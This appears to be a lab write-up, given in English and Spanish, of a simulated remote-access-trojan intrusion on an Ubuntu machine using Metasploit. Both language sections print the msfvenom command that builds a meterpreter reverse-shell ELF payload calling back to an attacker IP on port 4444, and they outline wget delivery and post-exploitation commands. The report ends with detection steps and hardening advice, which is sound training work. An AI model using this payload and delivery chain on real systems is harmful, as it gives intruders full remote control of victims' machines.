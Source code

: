 
# Metasploit Remote Access Trojan (RAT) Session Lab

## Objective

To simulate a RAT-based intrusion using Metasploit, initiate a reverse shell connection from a Linux target, and analyze the session activity and system compromise.

## Tools Used

- Kali Linux (attacker)
- Ubuntu 22.04 (victim)
- msfvenom (payload generation)
- msfconsole (session handling)
- tcpdump (traffic analysis)
- htop (system monitoring)

## Procedure

1. Payload Creation:
   The ELF binary for reverse shell was created using msfvenom:

   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f elf > rat.elf

2. File Hosting and Delivery:
   - Hosted via python3 HTTP server on the attacker's machine.
   - Downloaded on the victim using wget.
   - Payload executed with proper permissions.

3. Session Establishment:
   - Listener was configured in msfconsole.
   - Upon execution, a meterpreter session was opened.
   - Commands such as sysinfo, ps, getuid, and shell were used to interact with the system.

4. Process Monitoring:
   - `htop` was run on the victim to observe the RAT process in real time.
   - PID and CPU usage confirmed the background activity of meterpreter.

5. Traffic Inspection:
   - tcpdump was used on the attacker side to monitor port 4444.
   - Reverse TCP handshake and session packets were captured.

## Results

- Successful RAT execution from ELF binary.
- Full control over the victim system established.
- Meterpreter activity observed in `htop`.
- Unencrypted communication between host and target captured via tcpdump.

## Conclusions

- Linux systems without EDR or strict execution policies are vulnerable to payload-based attacks.
- Meterpreter allows full interactive control over compromised systems.
- Real-time process monitors and traffic inspection tools are effective in detecting unauthorized activity.

## Recommendations

- Implement application whitelisting and system integrity monitoring.
- Disable outbound connections to known C2 ports (e.g., 4444).
- Configure firewalls to block unexpected reverse traffic.
- Train SOC analysts to detect meterpreter-like behaviors.

# Laboratorio de Sesión RAT con Metasploit

## Objetivo

Simular una intrusión basada en RAT utilizando Metasploit, iniciar una conexión de shell inversa desde una máquina Linux víctima y analizar la actividad de la sesión y la posible compromisión del sistema.

## Herramientas Utilizadas

- Kali Linux (atacante)
- Ubuntu 22.04 (víctima)
- msfvenom (generación del payload)
- msfconsole (manejo de sesiones)
- tcpdump (análisis de tráfico)
- htop (monitoreo de procesos)

## Procedimiento

1. Creación del payload:
   Se generó un binario ELF con shell inverso usando:

   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f elf > rat.elf

2. Entrega del archivo:
   - Alojado mediante HTTP server de Python.
   - Descargado en la máquina víctima con wget.
   - Ejecutado tras asignar permisos de ejecución.

3. Establecimiento de sesión:
   - Listener configurado en msfconsole.
   - Al ejecutar el payload, se abrió una sesión meterpreter.
   - Se usaron comandos como sysinfo, ps, getuid y shell para interactuar con el sistema.

4. Monitoreo de procesos:
   - Se ejecutó `htop` en la víctima para observar el proceso de RAT en tiempo real.
   - Se verificó el uso de CPU y el PID correspondiente.

5. Inspección del tráfico:
   - Se utilizó tcpdump en el atacante para observar la actividad del puerto 4444.
   - Se capturaron los paquetes de conexión inversa y comunicación de la sesión.

## Resultados

- Ejecución exitosa del binario RAT.
- Control completo de la máquina víctima.
- Actividad de meterpreter visible en `htop`.
- Tráfico sin cifrar capturado con tcpdump.

## Conclusiones

- Sistemas Linux sin herramientas EDR o políticas de ejecución estrictas son vulnerables a este tipo de ataques.
- Meterpreter permite un control total del sistema comprometido.
- Herramientas de monitoreo de procesos y análisis de red son útiles para detectar actividad no autorizada.

## Recomendaciones

- Implementar listas blancas de ejecución y monitoreo de integridad del sistema.
- Bloquear conexiones salientes a puertos de C2 conocidos (como 4444).
- Configurar firewalls para impedir tráfico inverso inesperado.
- Capacitar a analistas SOC en detección de patrones asociados a meterpreter.
